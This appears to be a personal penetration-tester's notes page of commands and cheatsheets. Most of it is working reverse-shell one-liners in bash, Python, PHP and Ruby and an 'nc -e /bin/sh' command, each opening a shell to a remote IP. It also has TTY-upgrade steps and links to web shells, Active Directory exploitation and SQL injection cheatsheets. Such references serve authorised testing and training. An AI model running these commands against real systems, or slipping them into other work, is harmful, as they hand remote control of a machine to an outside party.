```yaml
---
layout: single
author_profile: true
permalink: /notes/
toc: true
title: Notes and Cheatsheets
toc_label: "Contents"
toc_icon: "fab fa-fw fa-th-list"
---
```


## Intro

This is a collection of commands and cheatsheets that I use on a regular basis, the original locations as to where these commands came from will be linked along side the commands. Again, these are not my creations, this is just a note of tools and commands that I have frequently used and that I think are useful. 

## Bash Prompt
[Here is a copy of my bash prompt](/bashrc)

## Shells
### Reverse Shells

{% highlight bash %}
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
{% endhighlight %}

{% highlight python %}
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

{% highlight php %}
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
{% endhighlight %}

{% highlight ruby %}
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
{% endhighlight %}

[PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

[Perl Reverse Shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

Credits for all of these shells goes to [pentestmonkey](http://pentestmonkey.net/)

### Web Shells

[p0wny@shell:~#](https://github.com/flozz/p0wny-shell) - My absolute favorite webshell

{% highlight php %}

{% endhighlight %}

### Interactive TTY Spawning

{% highlight bash linenos %}
nc -e /bin/sh 10.10.10.10 9001
{% endhighlight %}

{% highlight python linenos %}
python -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

`Ctrl + Z`

{% highlight bash linenos %}
stty raw -echo && fg && reset
{% endhighlight %}

{% highlight bash linenos %}
export SHELL=bash
export TERM=tmux
stty rows 48 columns 127
{% endhighlight %}

## AD 

This [GitHub Page](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet) by [S1ckB0y1337](https://github.com/S1ckB0y1337) is fantastic.

## SQLi

[MySQL Injection Cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) - [pentestmonkey](http://pentestmonkey.net/)

[PortSwigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) - [PortSwigger](https://portswigger.net/)

[w3schools SQLi Explanation](https://www.w3schools.com/sql/sql_injection.asp)


